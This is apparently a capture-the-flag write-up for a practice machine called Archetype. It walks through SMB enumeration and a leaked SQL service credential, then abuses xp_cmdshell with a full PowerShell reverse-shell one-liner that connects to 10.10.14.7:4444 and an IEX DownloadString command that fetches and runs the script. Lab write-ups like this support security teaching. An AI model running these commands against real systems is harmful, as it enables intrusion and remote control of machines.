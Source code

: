 ## Recon/Enumeration  
nmap -A 10..10.10.27  
![alt text](./img/archetype01.png?raw=true)  
Port 139 and 445 are open, so SMB is active. Let's try to connect ir with guest creds 
![alt text](./img/archetype02.png?raw=true)  
The folders needed a credential to access, however the backups folder didn't...
![alt text](./img/archetype03.png?raw=true)  

Let’s get this file and read it  
![alt text](./img/archetype04.png?raw=true)  

Found a credential:
- User = ARCHETYPE\sql_svc
- Password = M3g4c0rp123

## Exploit

DTConfiguration is part of a SQL Server configuration. So let’s try to connect to it  
![alt text](./img/archetype05.png?raw=true)

We found some tables with the command: “select * from information_schema.tables”. However there is nothing useful inside. So let’s see if we can execute commands here.  
Doing a research we can find something about xp_cmdshell.  
![alt text](./img/archetype06.png?raw=true)

Wow, let’s try to obtain more info about the system (if need to activate xp_cmdshell try this link)  
![alt text](./img/archetype07.png?raw=true)

Now let’s create as reverse shell ps1 file:

> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

After create the file set an http server and a listener:

sudo python3 -m http.server 80  
nc -nvlp 4444  

On the compromised machine run the command:  
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")"

A shell must appear in the nc listening port.

## Privesc  
Since we are running Powershell, let’s see the command history executed in it  
![alt text](./img/archetype08.png?raw=true)  

Ok, another credential. Let’s try to use it wit smbclient  
![alt text](./img/archetype09.png?raw=true)

## Discovery

